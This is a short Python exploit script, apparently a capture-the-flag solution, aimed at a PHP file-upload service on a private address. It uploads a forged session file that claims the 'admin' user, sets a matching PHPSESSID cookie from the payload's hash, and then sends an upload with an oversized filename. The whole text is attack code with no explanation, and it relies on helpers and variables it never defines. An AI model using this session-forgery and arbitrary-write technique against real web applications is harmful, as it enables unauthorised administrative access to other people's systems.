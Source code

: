 ```python

payload = b'username|s:5:"admin";'

sess_id = hashlib.sha256(payload).hexdigest()

header = f"""
Host: 172.16.0.1:6408
Connection: keep-alive
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID={sess_id}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
"""

header = parse_header(header)

files = {
    "up_file": (
        "sess",
        payload
    )
}

data = {
    "direction": "upload",
    "attr": "//"
}



requests.post(url=url,headers=header,files=files,data=data,proxies=proxies)

"""
sess_id 文件的内容是否为admin  可跳过此步骤
data = {
    "direction": "download",
    "filename": f"sess_{sess_id}"
}

requests.post(url=url,headers=header,data=data,proxies=proxies)
"""

files = {
    "up_file": (
        "aaa" * 300,
        r"bbbbbb"
    )
}

data = {
    "direction": "upload",
    "attr": "success.txt"
}

requests.post(url=url,headers=header,files=files,data=data,proxies=proxies)

r = requests.post(url=url,headers=header,proxies=proxies)

```